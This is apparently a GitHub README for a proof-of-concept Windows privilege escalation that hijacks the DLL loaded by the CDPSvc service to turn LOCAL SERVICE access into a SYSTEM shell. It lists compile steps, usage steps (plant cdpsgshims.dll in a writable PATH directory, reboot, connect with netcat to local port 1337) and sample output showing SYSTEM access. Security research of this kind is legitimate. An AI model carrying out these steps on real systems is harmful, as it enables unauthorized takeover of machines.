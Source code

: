 # CDPSvc DLL Hijacking - From LOCAL SERVICE to SYSTEM

<p align="center">
  <img src="/demo.gif">
</p>


## Description 

For more information please visit this [blog post](https://itm4n.github.io/cdpsvc-dll-hijacking/).


## How to compile 

1) Open Visual Studio and create a new __C++ Console Application__ project.  
2) Replace the content of the main source file with the content of __cdpsgshims.cpp__.  
3) Select __Release__ and __x86__/__x64__ depending on the architecture of the target machine.  
4) Open __Project__ > __Properties__ (and make sure the selected platform - __Win32__/__x64__ - is correct)   
    - __General__ > __Configuration Type__ -> `Dynamic Library (.dll)`  
    - __C/C++__ > __Code Generation__ > __Runtime Library__ -> `Multithread (/MT)`  
5) __Build solution__  


## Usage 

1) __Rename__ the output file as __cdpsgshims.dll__.  
2) Copy it into a __PATH directory__ where you have __Write access__.  
3) __Reboot__ (or stop/start CDPSvc as an administrator).  
4) Use a tool such as `nc.exe` to __connect to the local port 1337__.  

```
C:\TOOLS\>nc64.exe 127.0.0.1 1337
[*] Searching for a SYSTEM token...
[+] SYSTEM token found.
[+] CreateProcessAsUser() OK
Microsoft Windows [version 10.0.18362.476]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt auhtority\system
```

/!\ At this point, I'd suggest to stop the service, delete the DLL and restart the service. Otherwise you won't be able to delete the file. Your shell won't die because it runs in a separate process. 
